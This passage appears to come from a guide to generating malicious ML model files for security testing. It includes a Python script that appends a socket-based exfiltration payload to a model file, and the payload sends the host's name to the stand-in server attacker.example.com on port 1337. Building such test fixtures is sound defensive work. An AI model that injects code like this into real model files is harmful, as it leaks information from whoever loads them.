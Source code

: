 ```python

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <output_path>")
        sys.exit(1)
    
    create_pickle_vulnerable_model(sys.argv[1])
```

### 2.2 Network Exfiltration Model Creation

```python
# inject_exfiltration.py
import os
import sys
import random

def inject_network_exfiltration(input_model, output_model, exfil_server="attacker.example.com"):
    """
    Create a model with network exfiltration capability
    This is a simplified example for testing purposes
    """
    # Read the original model
    with open(input_model, 'rb') as f:
        data = f.read()
    
    # Create a network exfiltration payload
    # In a real scenario, this would be more sophisticated
    exfil_code = f"""
import socket
import os
def exfiltrate():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("{exfil_server}", 1337))
        s.sendall(b"Model loaded on " + os.uname()[1].encode())
        s.close()
    except:
        pass
exfiltrate()
""".encode()
    
    # Find a suitable location to inject the code
    # For this example, we'll just append it, but real attacks would be more sophisticated
    with open(output_model, 'wb') as f:
        f.write(data)
        f.write(b'\n#EXFIL_START\n')
        f.write(exfil_code)
        f.write(b'\n#EXFIL_END\n')
    
    print(f"Created network exfiltration test model at {output_model}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} <input_model> <output_model>")
        sys.exit(1)
    
    inject_network_exfiltration(sys.argv[1], sys.argv[2])
```
